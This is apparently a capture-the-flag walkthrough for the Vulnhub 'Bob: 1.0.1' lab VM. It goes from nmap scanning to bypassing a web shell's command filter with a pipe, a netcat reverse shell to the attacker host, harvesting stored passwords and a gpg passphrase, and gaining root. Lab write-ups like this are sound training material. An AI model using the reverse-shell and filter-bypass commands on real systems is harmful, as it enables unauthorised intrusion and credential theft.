



<style> 
    
    body { 
        background-color: white; 
        color: black;
        margin-top: 2cm;
        margin-left: 1.5cm;
        margin-right: 1.5cm;
    }
    .custom-bold {
        font-weight: bold;
    }
    .horizontal-line {
        border-top: 1px solid black;
    }
</style>

# <span class="custom-bold">Gain root privileges on Bob: 1.0.1 virtual machine with unsecured store credentials</span>

Gaining root privileges on a web server with the ultimate goal of capturing a flag is the aim of this demo.
The target is a vulnerable web server running within the [Bob: 1.0.1](https://www.vulnhub.com/entry/bob-101,226/) virtual machine, publicly available on [Vulnhub](www.vulnhub.com) platform. 

The walkthrough [Hack The Bob: 1.0.1](https://www.hackingarticles.in/hack-the-bob-1-0-1-vm-ctf-challenge/) is the baseline of the following report.

## Threat Model

The threat model of this demo is that the attacker (a Kali Linux virtual machine) is physically present in the same local network of the target and has the ability to communicate with it through TCP connections.  

## Content

- [**Discovery**](#discovery) &rightarrow; network scanning and services enumeration
- [**Initial Access**](#initial-access) &rightarrow; exploit RCE vulnerability on web application
- [**Execution**](#execution) &rightarrow; spawn target's remote shell on Kali vm using Netcat
- [**Credential Access**](#credential-access) &rightarrow; use of legitimate credentials stored insecurely in the machine
- [**Privilege Escalation**](#privilege-escalation) &rightarrow; abuse of high privileges valid accounts

<div class="horizontal-line"></div>

### Discovery
The initial step involves scanning the local network to find the IP address of the target machine, this is taken executing the following command

```bash
netdiscover -r 10.0.2.0/24
```
it invokes a tool based on ARP (Address Resolution Protocol) requests that determines online hosts on the network. Parameter `-r` indicates to the tool the range of IP addresses to scan.

While the Kali machine has IP address `10.0.2.6`, it is determined that _Bob: 1.0.1_ is at `10.0.2.10`.

Following this, the command

```bash
nmap -p- -A 10.0.2.10 
```
is employed. It takes as input the target IP along with specific parameters (outlined below) and provides in output an accurate enumeration of the servers running on target system. For each service it provides port numbers, protocols and other details corresponding to it.   
Command options:
- `-p-` scans all port range on target machine
- `-A` it enables OS detection, version scanning of services, traceroute, and other advanced detection techniques. Essentially, it gets as much information as possible about the target machine.

The result of `nmap` is shown in the following screenshot.


Remarkable facts:
- a web server is active on port 80,
- there is an SSH server listening on port 25468 

For convenience, _Bob: 1.0.1_'s IP address is added to file `/etc/hosts` on the Kali machine and linked to the name _hackthebob_.

Upon initial inspection, navigating to `http://hackthebob/` reveals what appears to be a website under construction for an high school.


Despite browsing through all the available pages, no significant information of interest is found.

### Initial Access
Upon closer analysis of `nmap` output detailing the web server, it becomes apparent that it hosts a file named `robots.txt`. Such a file typically contains directives for web crawlers regarding which pages to show or to ignore.

Examining its contents, four entries stand out as disallowed `/login.php`, `/passwords.html`, `/lat_memo.html` and `/dev_shell.php`. Those are interesting names, but further investigation reveals that only `http://hackthebob/dev_shell.php` is worthy: this is a web page featuring a rudimentary shell application named "dev_shell". Users can input commands into the text box and submit them to the server for execution.  suggesting a potential entry point for a possible exploration.

The first action taken is testing some basic bash commands to examine how the server reacts. It appears that there's some internal block or filter in place, because commands such as `ls` or `pwd` display an error message, while the `id` command provides a coherent output.

However, by attempting the command `id | ls` it became possible to list files. 
The following picture shows the web interface of `dev_shell.php` file and the output of the `ls` command.


The download of `dev_shell.txt.bak` file with `curl` command, which is likely a backup of `dev_shell.php`, reveals the reason why some commands didn't work. There is a filter consisting in the definition of an array of _bad words_, probably set for preventing mistaken usage. In other words there's a list of potentially dangerous or restricted commands not allowed to users.




The filter is a very basic and limited security practice and as a matter of fact filter circumvention is possible like shown previously whit `id | ls` command. It is based on:
- in the HTLM file, the PHP code that executes "security control" is bad written. The code trim the command taken as input and push it in an array, then executes control check only on cell zero, that is the principal command;
- operand `|`, called _Pipe_, simply takes as input of the second command the output of the first one, but since `ls` doesn't do anything with its input the result of the concatenated input is just the output of `ls`.

### Execution
Since the circumvention has been found, it's time to exploit it.  
The objective is opening a remote shell of the vulnerable server on the Kali Linux virtual machine. This is done using Netcat tool: it establishes a TCP connection through the two hosts. 

Two steps are required:

```bash
nc -lvp 6000
```
is ran on Kali side. The machine create a process listening on port 6000 for connection requests, this will be the server side of the TCP connection.  
Command options:
- `-l` specifies the listen mode, for inbound connections;
- `v` stands for "verbose", verbose mode gives additional information about the session state;
- `-p 6000` specifies the local port number chosen. 

```bash
id | nc -e /bin/bash 10.0.2.6 6000
```

is ran in the text box of the target web interface: the web server will be the client side of the TCP connection.  
Command options:
- `id |` for filter circumvention;
- `-e /bin/bash` specifies the program to execute after connection, which is a shell Bash
- `10.0.2.6 6000` are just hostname and port number of the server side.

The attempt is to establish a remote Bash shell on Kali virtual machine, but the spawned process is only a basic Sh shell. In order to have a more versatile and powerful one, on the server side of the connection the following text line is written:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
- `python -c` indicates the fact that the command following is executed by command line Python interpreter
- `import pty;pty.spawn("/bin/bash")` imports a Python library and calls a function that spawns a Bash shell

Now it is possible to look around and move in the file system of _Bob: 1.0.1_ machine. The current account is `www-data`, but it is needed to gain higher privileges to complete the challenge, in fact moving to the root directory of the file system and listing files with `ls -l` command it is possible to see that the `flag.txt` file can be opened only by root account because it is the legitimate owner.

In the `/home` directory there are four other directories with person names  (_bob_, _elliot_, _jc_, _seb_). In the first one, on path `/home/bob/Documents` there are an encrypted file with name `login.txt.gpg` and another directory named "Secret".

On path `/home/bob/Documents/Secret/Keep_Out/No_Lookie_In_Here` there is a script `notes.sh`: executing it the output is a list of apparently no sense phrases.
This output seams to have no meaning, but taking the first letter of each line the word 'HARPOCRATES' is composed (this is the name of an Egyptian divinity), maybe it is the passphrase for the encrypted file.

All steps from the Netcat connection establishment to this point are shown in the following screenshot.

 

Now it's needed to change account in order to decrypt `login.txt.gpg` bacause the current account `www-data` is not allowed.

In `/home/elliot` there is a file, `theadminisdumb.txt`, that contains a long text with embedded two user's password. 
According to this file Elliot's account has password 'theadminisdumb' while the Jc's one has password 'Qwerty'.

### Credential Access
To test this information, command `su elliot` is ran and, after inserting his password, the current account changes to Elliot's one.  
It turns out that he has permission for decrypting the `.gpg` file, so the following command is ran for attempting decryption.

```bash
gpg --batch –-passphrase HARPOCRATES -d login.txt.gpg
```
Command options:
- `--batch` is for run in batch mode, meaning it won't require user input during execution;
- `–-passphrase HARPOCRATE` specify the phrase used for decryption;
- `-d login.txt.gpg` is to specify that decryption is requested on that file.

Decryption succeeded thanks to the right passphrase.
Having the file in clear it is possible to read Bob's password which is 'b0bcat_'.

All the steps mentioned are shown in the following screenshot.


### Privilege Escalation
Change account again and impersonate Bob is now possible. It turns out that Bob is a user with root privileges (while Elliot did not).

It is important to notice that Bob is not the owner of the file `flag.txt`, so it is not possible yet to capture the flag.  
However since Bob is a superuser, executing just `sudo su` it is possible to became root account: this allow to capture the flag and conclude the challenge.  



<div class="horizontal-line"></div>

From the output of `nmap` command, is remarkable that there is another server active on the machine: an SSH server not running as usual on port 22, but on port 25468.
This custom port number could have be chosen for security reason, or to try to keep it hidden.

An attempt to connect with _Bob: 1.0.1_ on Bob account via SSH is made and succeeded with command 

```bash
ssh -p 25468 bob@hackthebob
``` 

So just with this one-line command it is possible to penetrate inside the web server, even without interacting with the web interface online.



A large set of credentials assure a sort of persistence over this web server as long as users keep the same passwords and the TCP connection remains stable.  
However with root privileges could be possible to change credentials, or add accounts and more. 